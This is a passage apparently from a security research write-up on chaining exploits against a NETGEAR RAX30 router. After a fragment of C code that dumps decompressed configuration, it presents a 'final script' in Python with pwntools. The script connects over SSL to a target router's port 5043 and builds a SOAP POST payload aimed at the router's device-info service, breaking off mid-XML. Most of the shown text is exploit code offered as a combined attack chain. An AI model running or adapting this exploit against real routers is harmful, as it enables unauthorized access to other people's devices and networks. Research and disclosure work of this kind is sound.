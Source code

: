 ```c
    Dump2File((unsigned char *)decompress_content, returnconfiglen, "decompressbuffer");
}
```

![](img/decodedconfig.png)

### 3.8 Final stage - Combine all chain
The final step is to combine all exploit I have made.


Final script:
```python
from pwn import *
import argparse



parser = parser = argparse.ArgumentParser(description="NETGEAR RAX30 exploit")
parser.add_argument("--remote", "-r", help="router IP", required=True)


args = parser.parse_args()
IP = args.remote

io = remote(IP, 5043, ssl = True)


payload = '''POST http://routerlogin.net:5000/soap/server_sa/ HTTP/1.1
Accept: text/xml
Accept: multipart/*
Accept: application/soap
User-Agent: SOAP::Lite/Perl/1.09
Content-Length: 577
Content-Type: text/xml; charset=utf-8
SOAPAction: "urn:NETGEAR-ROUTER:service:DeviceInfo:1#GetInfo"

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope 
    soap:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" 
    xmlns:M1="urn:NETGEAR-ROUTER:service:DeviceInfo:1" 
    xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" 
    xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/" 
```